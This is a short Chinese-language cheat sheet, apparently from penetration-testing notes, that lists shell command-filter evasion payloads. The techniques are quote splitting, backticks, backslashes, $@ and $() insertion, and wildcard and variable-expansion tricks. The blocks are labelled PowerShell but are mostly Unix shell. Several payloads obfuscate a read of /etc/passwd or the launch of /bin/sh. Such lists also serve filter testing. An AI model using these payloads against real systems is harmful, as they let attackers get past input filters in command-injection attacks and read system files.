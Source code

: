 ### 单引号绕过

```powershell
w'h'o'am'i
wh''oami
'w'hoami
```

### 双引号绕过

```powershell
w"h"o"am"i
wh""oami
"wh"oami
```

### 反引号绕过

```powershell
wh``oami
```

### 反斜杠和斜杠绕过

```powershell
w\ho\am\i
/\b\i\n/////s\h
```

### $@ 绕过

`$0`：如果脚本正在运行，则引用脚本的名称。如果你在交互式 shell 会话中，`$0` 通常会给出 shell 的名称。

```powershell
who$@ami
echo whoami|$0
```

### $() 绕过

```powershell
who$()ami
who$(echo am)i
who`echo am`i
```

### 变量扩展绕过

```powershell
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```
